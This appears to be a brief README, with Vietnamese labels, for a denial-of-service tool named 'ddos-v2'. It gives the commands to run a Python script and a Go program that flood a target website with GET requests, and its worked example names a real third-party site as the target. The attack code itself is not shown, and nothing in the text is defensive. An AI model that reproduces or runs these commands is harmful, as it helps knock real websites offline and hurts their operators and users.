 # ddos-v2




cd ddos-v2

python dxtddos.py

Hoạc

go run ddos.go tên web 10000 get 250 header txt

VD: 

run ddos.go xnxx.com 10000 get 250 header.txt
